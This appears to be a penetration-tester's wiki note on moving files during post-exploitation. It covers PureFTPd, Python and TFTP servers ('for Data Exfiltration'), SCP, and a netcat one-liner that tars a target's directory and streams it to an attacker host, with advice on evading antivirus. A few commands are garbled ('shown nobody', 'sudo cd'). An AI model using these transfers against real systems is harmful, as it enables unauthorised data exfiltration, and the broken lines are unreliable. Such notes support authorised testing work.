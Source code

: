 # File Transfers
Some methods are destructive and should be used with caution. All Post Exploitation binaries and scripts use should be documented to aid in cleaning up after engagement. 

1. For stealth and professionalism they could be found revealing foothold and potential abused for malicious individuals. Documenting each upload helps keep a inventory of use where and how, networks can get very large and it not ideal to have to traverse the entire network to remove one file you forgot to document and missed in cleaning up.
2. Antivirus scans endpoint filesystems in search of pre-defined file signatures which are mapped from open/closed source tools in wide use from open resources like [Virus Total](https://www.virustotal.com/gui/home/upload). AV should alert System Adminstrators and will quarantine any offending binaries or scripts.

Therefore its best practice to live off the land as regards to Post Exploitation only until a tool is needed to bypass or escalate further. For Shell related information see [[Shells]] and [[Reverse-Shells]] for various reverse shells and place to find more. For [[Windows-File-Transfers]] follow the link the remainer of this article will include hosting methods

## PureFTPd
```bash
sudo apt install pure-ftpd
```

Setup script 
```bash
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

## Python

```bash
python3 -m http.server $port
python -m SimpleHTTPServer $port
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```


## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```


## SCP
```bash

scp <file> <user>@<host>:<dest>

# To copy a file from a remote server to your local machine:

scp <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):

scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:

scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```


## References

[cheat](https://github.com/cheat/cheatsheets/blob/master/scp)
